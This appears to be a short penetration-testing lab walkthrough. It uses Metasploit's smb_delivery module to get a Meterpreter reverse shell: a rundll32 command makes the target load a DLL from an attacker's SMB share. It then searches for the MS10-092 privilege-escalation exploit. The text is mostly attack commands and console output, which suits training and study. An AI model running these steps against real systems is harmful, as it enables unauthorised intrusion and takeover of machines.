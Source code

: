 ```
```

## Obtaining a Meterpreter Shell

1) Generate a local dll and listening for reverse shell

```
sudo msfconsole -q

exploit(windows/smb/smb_delivery) > search smb_delivery
use exploit/windows/smb/smb_delivery

msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0

exploit

[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

2) Rundll Command on Target Host

```
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

3) Receiving Reverse Shell

```
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

## Searching for Local Privilege Escalation Exploit

1) https://www.exploit-db.com/exploits/19930

```
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
use exploit/windows/local/ms10_092_schelevator
```
